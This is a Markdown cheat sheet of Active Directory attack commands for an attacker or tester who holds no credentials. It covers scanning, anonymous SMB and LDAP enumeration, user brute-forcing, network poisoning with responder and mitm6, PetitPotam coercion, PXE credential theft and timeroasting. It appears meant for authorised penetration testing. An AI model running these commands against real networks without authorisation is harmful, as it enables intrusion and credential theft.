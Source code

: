 ```yaml
---
title: "No Credentials"
description: "No Credentials techniques and commands for Active Directory security assessment."
---
```

## Scan network >>> Vulnerable host
- `nxc smb <ip_range>`
- `nmap -sP -p <ip>`
- `nmap -Pn -sV --top-ports 50 --open <ip>`
- `nmap -Pn --script smb-vuln* -p139,445 <ip>`
- `nmap -Pn -sC -sV -oA <output> <ip>`
- `nmap -Pn -sC -sV -p- -oA <output> <ip>`
- `nmap -sU -sC -sV -oA <output> <ip>`

## Find DC IP
- `nmcli dev show <interface>`
- `nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`
- `nmap -p 88 --open <ip_range>`

## Zone transfer
- `dig axfr <domain_name> @<name_server>`

## Anonymous & Guest access on SMB shares
- `nxc smb <ip_range> -u '' -p ''`
- `nxc smb <ip_range> -u 'a' -p ''`
- `enum4linux-ng.py -a -u '' -p '' <ip>`
- `smbclient -U '%' -L //<ip>`

## Enumerate LDAP >>> Username
- `nmap -n -sV --script 'ldap*' and not brute -p 389 <dc_ip>`
- `ldapsearch -x -H <dc_ip> -s base`

## Enumerate Users >>> Username
- `nxc smb <dc_ip> --users`
- `nxc smb <dc_ip> --rid-brute 10000 # bruteforcing RID`
- `net rpc group members 'Domain Users' -W '<domain> -l <ip> -U '%'`

## Bruteforce users >>> Username
- `kerbrute userenum -d <domain> <userlist>`
- `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm= '<domain>',userdb=<user_list_file>" <dc_ip>`

## Poisoning >>> poisoning SMB || poisoning LDAP || poisoning HTTP
- LLMNR / NBTNS / MDNS
  - `responder -l <interface>`
- ⚠️ DHCPv6 (IPv6 prefered to IPv4)
  - `mitm6 -d <domain>`
  - `bettercap`
- ⚠️ ARP Poisoning
  - `bettercap`
  - `asreqroast`
    - `Pcredz -i <interface> -v` >>> Hash found ASREQ

## Coerce >>> Coerce SMB
- Unauthenticated PetitPotam (CVE-2022-26925) @CVE@
  - `petitpotam.py -d <domain> <listener> <target>`

## PXE
- no password >>> Credentials (NAA account)
  - `pxethief.py 1`
  - `pxethief.py 2 <distribution_point_ip>`
- password protected >>> PXE Hash
  - `tftp -i <dp_ip> GET "\xxx\boot.var"`
  - `pxethief.py 5 '\xxx\boot.var'`

## TimeRoasting >>> timeroast hash
- `timeroast.py <dc_ip> -o <output_log>`
